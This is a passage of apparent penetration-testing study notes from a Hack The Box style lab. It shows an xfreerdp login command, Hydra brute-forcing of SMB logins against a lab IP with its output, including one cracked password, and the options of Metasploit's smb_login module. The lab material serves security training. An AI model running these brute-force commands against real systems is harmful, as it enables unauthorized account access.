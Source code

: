 ```shell-session
```
- Same format as SSH however instead of typing SSH at the beginning of the address, we are typing rdp. 

Once credentials have been obtained, we then can use xFreeRDP to log in. 
```bash
xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

## Hydra-SMB

Server Message Block is used to transfer data between client and server in LANs. 

Hydra Brute Forcing: 
```shell-session
realCustampin@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:37:31
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[445][smb] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid passwords found
```

Hydra may not be able to be used against SMBv3 replies. In order to work around this problem, we want to use Metasploit. 
```shell-session
realCustampin@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:38:13
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[ERROR] invalid reply from target smb://10.129.42.197:445/
```

Using Metasploit to gain user and pass credentials: 
```shell-session
realCustampin@htb[/htb]$ msfconsole -q

msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > options 

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
```